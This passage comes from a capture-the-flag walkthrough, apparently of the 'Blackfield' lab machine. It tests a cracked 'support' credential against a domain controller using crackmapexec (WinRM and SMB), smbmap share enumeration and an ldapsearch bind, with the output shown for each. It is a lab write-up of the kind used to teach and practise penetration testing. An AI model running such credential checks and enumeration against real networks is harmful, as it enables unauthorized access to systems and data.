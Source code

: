 Creds: support / #00^BlackKnight

### Access Check

With these creds, I’ll see what kind of access I just acquired. Unsurprisingly, support does not have WinRM access:

```

root@kali# crackmapexec winrm 10.10.10.192 -u support -p '#00^BlackKnight'
WINRM       10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [-] BLACKFIELD\support:#00^BlackKnight "Failed to authenticate the user support with ntlm"

```

These creds do work for SMB:

```

root@kali# crackmapexec smb 10.10.10.192 -u support -p '#00^BlackKnight'
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\support:#00^BlackKnight 

```

It looks like I’ve gained READ ONLY access to the `NETLOGON` and `SYSVOL` shares:

```

root@kali# smbmap -H 10.10.10.192 -u support -p '#00^BlackKnight'
[+] IP: 10.10.10.192:445        Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        forensic                                                NO ACCESS       Forensic / Audit share.
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        profiles$                                               READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share

```

These creds don’t seem to work with LDAP either:

```

root@kali# ldapsearch -h 10.10.10.192 -D cn=support,dc=blackfield,dc=local -w '#00^BlackKnight' -x -b 'dc=blackfield,dc=local'
ldap_bind: Invalid credentials (49)
        additional info: 80090308: LdapErr: DSID-0C090436, comment: AcceptSecurityContext error, data 52e, v4563

```

